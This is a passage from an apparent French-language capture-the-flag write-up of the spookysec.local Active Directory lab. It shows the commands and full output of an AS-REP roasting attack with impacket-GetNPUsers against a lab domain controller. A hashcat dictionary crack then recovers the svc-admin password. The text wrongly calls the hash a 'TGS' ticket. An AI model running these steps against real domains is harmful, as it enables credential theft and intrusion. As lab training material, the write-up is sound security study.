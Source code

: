 ```terminal

─# impacket-GetNPUsers spookysec.local/ -no-pass -usersfile kerb_user.txt -dc-ip 10.10.237.76
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[-] User Muirland doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User James doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User optional doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User breakerofthings doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sherlocksec doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-spooks doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:bd5c6668ca5c22bd48430125cdd0fba4$47ba2f653f4ef02f45f871fc3837edb00a3d67ca5794c7ab47fcd408516cf4c69bc7204721e9445a23d7fdd8c4057c4d941f8130e4432620be7296f6e4ef761cd70a73f3bd10bbdbb717481a82dbc44f39cfcbd055ace196bda45925b9c6e90f59fd35d94fc44ab7b76e01afcb5f953bc5e6d6092cdf34f496796485a0100e568b81b6ceef27f5fcf99f1262147de728cc34e19328b2deaa0a71aa59f87134ed3816ced7da6b45fb4b6e730be4b446542f5a37c38a50751ba75a78ce1a1eb8ae892db2eeb032a93aae0f5505d5a8538bcd8f039032265e5b3a9daebd4b143986144224388c9754fe1aea2b097f7e9631ee03
```
J'arrive a avoir le Ticket `TGS` de l'utilisateur `svc-admin`

**Cracking**

```terminal
└─# hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 2868/5800 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344387
* Bytes.....: 139921519
* Keyspace..: 14344387

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:bd5c6668ca5c22bd48430125cdd0fba4$47ba2f653f4ef02f45f871fc3837edb00a3d67ca5794c7ab47fcd408516cf4c69bc7204721e9445a23d7fdd8c4057c4d941f8130e4432620be7296f6e4ef761cd70a73f3bd10bbdbb717481a82dbc44f39cfcbd055ace196bda45925b9c6e90f59fd35d94fc44ab7b76e01afcb5f953bc5e6d6092cdf34f496796485a0100e568b81b6ceef27f5fcf99f1262147de728cc34e19328b2deaa0a71aa59f87134ed3816ced7da6b45fb4b6e730be4b446542f5a37c38a50751ba75a78ce1a1eb8ae892db2eeb032a93aae0f5505d5a8538bcd8f039032265e5b3a9daebd4b143986144224388c9754fe1aea2b097f7e9631ee03:management2005
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:bd5c6668ca5...31ee03
Time.Started.....: Mon Feb 26 17:59:37 2024 (2 secs)
Time.Estimated...: Mon Feb 26 17:59:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
```